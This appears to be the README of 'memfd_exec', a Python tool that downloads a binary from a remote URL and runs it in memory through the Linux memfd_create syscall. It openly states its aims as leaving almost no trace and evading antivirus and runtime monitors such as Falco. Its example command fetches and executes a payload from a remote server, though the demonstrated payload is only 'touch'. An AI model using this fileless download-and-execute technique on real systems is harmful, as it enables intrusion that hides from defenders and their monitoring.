 # memfd_exec
Retrieve binary payload from a remote url and execute it in-memory using memfd

## Why in-memory execution ?

- No trace (almost ..)
- Evades detection by AVs and runtime security tools like [Falco]([url](https://github.com/falcosecurity/falco)).

## How does it work?

It uses `memfdd_create` syscall which:

> creates an anonymous file and returns a file
       descriptor that refers to it.  The file behaves like a regular
       file, and so can be modified, truncated, memory-mapped, and so
       on.  However, unlike a regular file, it lives in RAM and has a
       volatile backing storage.  Once all references to the file are
       dropped, it is automatically released.  Anonymous memory is used
       for all backing pages of the file.  Therefore, files created by
       memfd_create() have the same semantics as other anonymous memory
       allocations such as those allocated using mmap(2) with the
       MAP_ANONYMOUS flag.

- https://man7.org/linux/man-pages/man2/memfd_create.2.html

## Usage

```
usage: memfd_exec.py [-h] [--exec_args EXEC_ARGS [EXEC_ARGS ...]] url

positional arguments:
  url                   URL to the payload server

optional arguments:
  -h, --help            show this help message and exit
  --exec_args EXEC_ARGS [EXEC_ARGS ...]
                        Arguments to be passed to memfd executable
```

## Example

Serve the payload on a remote server:

```
python3 -m http.server --directory /usr/bin/
```

Execute the payload with:

```
python3 memfd_exec.py http://remote_endpoint:8000/touch --exec_args test_file
```

```
ls -s test_file
0 test_file
```
